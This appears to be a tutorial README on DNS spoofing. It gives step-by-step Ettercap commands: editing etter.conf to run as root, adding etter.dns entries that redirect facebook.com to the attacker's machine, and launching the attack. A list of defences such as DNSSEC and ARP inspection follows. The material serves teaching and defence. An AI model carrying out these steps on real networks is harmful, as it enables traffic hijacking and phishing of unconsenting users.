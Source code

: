 # DNS Spoofing Attack

## What is DNS Spoofing?

DNS Spoofing (also known as DNS cache poisoning) is an attack where a
malicious actor redirects a victim's DNS requests to a fake or
unintended server. This can trick users into visiting fraudulent
websites instead of legitimate ones.

* **DHCP Server IP Address:** 192.168.1.1
* **Attacker IP Address:** 192.168.1.8

## How the Attack Works

1.  First edit the Ettercap configuration file.

     ```bash
     gedit /etc/ettercap/etter.conf 
     ```

2.  Change the UID and GID values at the top to make them say 0.

     ```bash
     ec_uid = 0
     ec_gid = 0 
     ```
  

3. Now scroll down until you find the heading that says Linux and under that remove both the # 
signs below where it is redir_command_on

4. Configure another ettercap file called etter.dns
     ```bash
     leafpad /etc/ettercap/etter.dns
     ```
5. Add the domain names you would like to redirect to your local server
     ```bash
     www.facebook.com A 192.168.1.8
     *.facebook.com A 192.168.1.8
     ```

6. Now open up ettercap and start the attack.
      ```bash
     ettercap -G
     ```


## What Happens to the Victim

-   The victim attempts to access a legitimate domain (e.g.,
    `facebook.com`).
-   Instead of being sent to the correct IP, DNS resolves it to the
    attacker's IP.
-   The victim unknowingly lands on a malicious server or fake website.

------------------------------------------------------------------------

## Defensive Measures

To protect against DNS spoofing attacks:

1.  **Use DNSSEC** -- Ensures authenticity of DNS responses.
2.  **Enable ARP Inspection / Dynamic ARP Inspection (DAI)** -- Prevents
    ARP poisoning on switches.
3.  **Deploy IDS/IPS Systems** -- Detects and blocks suspicious DNS and
    ARP traffic.
4.  **Use Encrypted DNS (DoH or DoT)** -- Protects DNS queries from
    tampering.
5.  **Monitor DNS Logs** -- Detect anomalies in query patterns and
    unexpected redirects.
6.  **Keep Systems Patched** -- Regularly update networking and
    DNS-related software.

------------------------------------------------------------------------

## Summary

DNS spoofing can be highly deceptive, redirecting users to malicious
websites even if they type the correct domain. Awareness, monitoring,
and the use of secure DNS mechanisms are critical to preventing such
attacks.
